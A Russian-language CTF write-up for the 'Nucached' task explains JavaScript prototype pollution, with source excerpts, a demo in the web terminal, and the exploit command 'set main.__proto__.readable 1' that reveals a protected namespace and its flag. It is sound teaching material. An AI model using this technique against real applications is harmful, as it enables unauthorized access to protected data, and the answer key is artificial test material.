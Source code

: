 # Nucached: Write-up

Имеем веб-сервис, выглядящий как терминальчик, на котором можно вводить команды. Начнем с самого очевидного, что приходит в голову -- `help`:

```
> help
nucached: a revolutionary alternative to memcached!
(c) 2003, Vasya Pupkin
Usage:
  help: Show this message
  get key: Show key key
  set key value: Set the value of key to value
  ls: List all keys
Nested key-value objects are supported, e.g. set a.b.c value.
```

По-видимому, это обычное key-value хранилище. Посмотрим, что там уже есть:

```
> ls
Store secrets (unreadable) = ???
Store main:
  main.hello = "Hello, world!"
```

Ага, понятненько. Убедимся, что мы вообще понимаем, как работают команды:

```
> get main.hello
"Hello, world!"

> get main
{"hello":"Hello, world!"}
```

Попробуем на удачу?

```
> get secrets
unreadable namespace secrets

> get secrets.flag
unreadable namespace secrets
```

По-видимому, так просто обойти защиту не получится. Пора обратиться к исходному коду.

Интересующий нас файл `worker.js` отвечает за чтение и запись и проверку разрешений. Проверка на `unreadable namespace` выглядит так:

```javascript
if(!object[ns].readable) {
	return `<i>unreadable namespace</i> ${escapeHTML(ns)}\n`;
}
```

По умолчанию это свойство на `secrets` вообще не установлено:

```javascript
const STORES = {
	secrets: {
		writable: true,
		value: {
			flag
		}
	},
	main: {
		readable: true,
		writable: true,
		value: {
			hello: "Hello, world!"
		}
	}
};
```

Гугля "js exploit change property" или "js exploit add property", можно достаточно быстро наткнуться на описание уязвимости prototype pollution.

Идея уязвимости заключается в следующем. ООП в JavaScript устроено так, что у каждого объекта `x` имеется свойство `__proto__`, которое также является объектом, и при чтении свойства `x.someProperty`, если свойство `someProperty` не установлено, вместо него читается `x.__proto__.someProperty`, при его отсутствии -- `x.__proto__.__proto__.someProperty` и так далее. Соответственно, для того, чтобы создать класс, надо определить некоторый "базовый" объект, свойствами которого будут методы класса, а в конструкторе поставить этот базовый объект в качестве `__proto__` объекта, содержащего методы конкретного инстанса класса. Например:

```javascript
const BASE_CAT = {
	meow() {
		return `"Meow!!", says ${this.name}.`;
	}
};

function Cat(name) {
	const self = {__proto__: BASE_CAT};
	self.name = name;
	return self;
}

const cat = Cat("Mittens");
cat.meow();
```

Поскольку заводить на каждый класс сразу две переменные -- `BASE_CAT` и `Cat` -- неудобно, вместо `BASE_CAT` используют `Cat.prototype` (для этого свойство `prototype` установлено в `{}` по умолчанию у каждой функции):

```javascript
function Cat(name) {
	const self = {__proto__: Cat.prototype};
	self.name = name;
	return self;
}

Cat.prototype.meow = function() {
	return `"Meow!!", says ${this.name}.`;
};

const cat = Cat("Mittens");
cat.meow();
```

Но поскольку это очень частый паттерн, в JavaScript есть оператор `new`, который делает ровно то, что описано в функции `Cat`, но более удобно: он создает объект `{__proto__: Cat.Prototype}` и подставляет его в качестве переменной `this`, а затем `this` возвращает. То есть код выше можно упростить до:

```javascript
function Cat(name) {
	this.name = name;
}

Cat.prototype.meow = function() {
	return `"Meow!!", says ${this.name}.`;
};

const cat = new Cat("Mittens");
cat.meow();
```

Это действительно один из самых простых методах реализации ООП, но он плохо сочетается с другой особенностью JavaScript. Во многих языках, например Python и C++, разделяются *свойства*, которые могут быть полями и методами, например `dict.items()` или `vector.size()`, и *элементы*, которые свои у каждой конкретной структуры данных, например `dict[key]` и `vector[index]`. В JavaScript же свойство и элемент -- одно и то же, и поэтому, если программа позволяет записать что-то в свойство `__proto__`, то прототип объекта изменится. Это можно воспроизвести прямо в nucached:

```
> set main.test {"a": 1}
success

> set main.test.__proto__ {"b": 2}
success

> get main.test.a
1

> get main.test.b
2

> set main.test.__proto__ {}
success

> get main.test.b
non-existent
```

Однако еще хуже, если можно переписать не свойство `__proto__`, а что-то *внутри* свойства `__proto__`, потому что это изменяет прототип всех объектов, наследующихся от того же самого родителя; но все объекты, создаваемые через `{}`, имеют общий прототип, поэтому если мы добавим поле `readable` внутри прототипа любого объекта, оно появится у вообще всех объектов, включая тот, который проверяется условием `object[ns].readable`:

```
> set main.__proto__.readable 1
success

> ls
Store secrets:
  secrets.flag = "ugra_now_go_patch_your_own_websites_bpzgfnr7bfnp"
  secrets.readable = 1
Store main:
  main.hello = "Hello, world!"
  main.test
    main.test.a = 1
    main.test.readable = 1
  main.readable = 1
Store readable (unwritable) = undefined
```

Уязвимость в данном случае заключается в том, что `set` не проверяет, не переписывает ли оно специальное поле `__proto__`. Другие поля, конечно, также могут быть опасными, если их можно заменить на что угодно, например, метод `toString` и т.п., поэтому при реализации алгоритмов десериализации надо быть очень осторожным.

Флаг: **ugra_now_go_patch_your_own_websites_bpzgfnr7bfnp**
